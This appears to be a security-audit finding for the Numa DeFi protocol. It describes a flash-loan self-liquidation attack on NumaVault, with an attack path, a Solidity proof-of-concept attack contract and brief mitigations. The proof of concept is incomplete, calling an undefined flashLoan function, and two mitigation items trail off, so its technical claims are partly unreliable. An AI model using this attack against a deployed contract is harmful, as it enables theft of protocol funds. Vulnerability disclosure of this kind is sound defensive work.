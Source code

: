 Rich Rosewood Otter

High

# Malicious actors will drain protocol funds through flash loan self-liquidations

### Summary

Missing validation checks in liquidation functions will cause loss of funds for the protocol as malicious actors will exploit flash loans combined with self-liquidation through proxy contracts to extract excess value during high collateral factor periods.

### Root Cause

- In [NumaVault.sol:456](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf) the notBorrower modifier only checks msg.sender
- In [NumaVault.sol:482-485](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf) the liquidation function allows flash loans without checking tx.origin

### Internal pre-conditions

1. Admin needs to set CollateralFactorMantissa to be at least 0.75 (75%) in NumaComptroller
2. Amount of LST tokens in vault needs to be at least equal to liquidation amount
3. Flash loan parameter needs to be set to true in liquidation functions

### External pre-conditions

1. Uniswap LST/ETH pool needs to have at least 100k USD in liquidity
2. Gas price needs to be less than 100 gwei to make attack profitable

### Attack Path

1. Attacker deploys proxy contract
2. Attacker takes flash loan of LST tokens through proxy
3. Attacker opens leveraged position using flash loaned tokens
4. Attacker triggers self-liquidation through proxy contract, bypassing [NumaVault.sol:456](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf)
5. Attacker extracts excess value through price manipulation using [NumaVault.sol:482-485](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf)
6. Attacker repays flash loan with profit

### Impact

The protocol suffers a loss of 10-15% of collateral value per successful attack. The attacker gains this percentage of the collateral minus flash loan fees and gas costs.

### PoC

contract AttackContract {
    INumaVault vault;
    IERC20 lstToken;
    
    function attack() external {
        // Flash loan LST tokens
        uint256 loanAmount = 1000e18;  
        bytes memory params = abi.encode(msg.sender);
        flashLoan(loanAmount, params);
    }

    function executeOperation(
        uint256 amount,
        uint256 premium,
        address initiator,
        bytes calldata params
    ) external returns (bool) {
        // Open leveraged position
        lstToken.approve(address(vault), amount);
        vault.buy(amount, 0, address(this));
        
        // Self-liquidate through proxy
        vault.liquidateNumaBorrower(
            initiator,  // Original borrower - bypasses notBorrower check
            amount,     
            true,      // Swap to input token
            true       // Use flash loan
        );

        // Repay flash loan with profit
        lstToken.transfer(msg.sender, amount + premium);
        return true;
    }
}

### Mitigation

1. Update notBorrower modifier to check tx.origin in [NumaVault.sol:456](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf):

2. Add liquidation cooldown period check in [NumaVault.sol:482](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf):

3. Add stricter validation around flash loan usage in [NumaVault.sol:482-485](https://github.com/sherlock-audit/2024-12-numa-audit/commit/37e4e56293e20fb0220a06eec425dd0986c4fecf)